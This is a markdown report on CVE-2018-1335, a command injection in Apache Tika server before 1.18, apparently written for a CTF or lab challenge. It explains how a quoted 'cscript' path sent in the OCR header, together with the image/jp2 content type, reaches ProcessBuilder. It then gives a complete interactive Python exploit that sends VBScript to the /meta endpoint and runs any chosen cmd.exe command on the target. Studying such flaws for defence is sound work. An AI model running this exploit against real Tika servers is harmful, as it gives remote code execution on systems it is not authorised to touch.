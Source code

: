 <div align="center"><h1>CVE-2018-1335 REPORT</h1></div>

## About the vulnerability

This vulnerability leads to command injection vulnerability in Apache Tika server uses Cscript.exe to execute Jscript or VBS code and run arbitary commands.

**On versions:** Apache Tika server <1.18

**Pre-requisites:** No pre-requisites. Run the Tika server in its default configuration.

## Explanation
The entry point for this vulnerability is HTTP request header. To exploit this vulnerability, we need to pass the arguments in through HTTP request to `processHeaderConfig` function. This function sets the properties of the `TesseractORConfig` object.

The `doOCR` function in `TesseractORConfig.java` passes the config properties from the `TesseractORConfig` object, directly into an array of strings and it is further used to construct command for `ProcessBuilder`.

When we pass our command in the header as `X-Tika-OCRTesseractPath: <some command>`, the command is inserted into the cmd string but is unable to execute becuase of the prepending of some uncontrolable strings. To bypass this, we have to wrap our command in double quotes. This would result in windows ignoring whatever is appended to it after the qoutes. This would result in execution of our injected command.

`OCR` is used for pulling text and content out of the images and that's why we used image as our content-type so that we can reach the `doOCR` function.
The only way through which we can make Tika accept our command without embedding them into an image and then uploading that image is by setting the `Content-type` to `image/jp2`. This particular thing forces Tika to not check magic bytes of the image and allows the image to process through OCR. This resulted in the successful upload of our "image" file containing VBScript. We are able to successfully exploit the vulnerability.

## Exploit
```
#!/usr/bin/python

import requests

host = input("=> Target website/IP address = ")
port = input("=> Port number = ")
command = input("=> Command = ")

url = "http://"+host+':'+port+'/meta'

header = {"X-Tika-OCRTesseractPath": "\"cscript\"", "X-Tika-OCRLanguage": "//E:Jscript", "Content-type": "image/jp2"}

script = '''WScript.CreateObject("WScript.Shell").Run("cmd.exe /k %s")'''%command

requests.put(url, headers=header, data = script)
```
[Exploit code link](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall4/chall4/exploit.py)

Exploit was tested on Apache Tika 1.17 with Java version 1.7.0_80

## Proof Of Concept (PoC)

[PoC video link](https://youtu.be/gDetAKkIXgs)
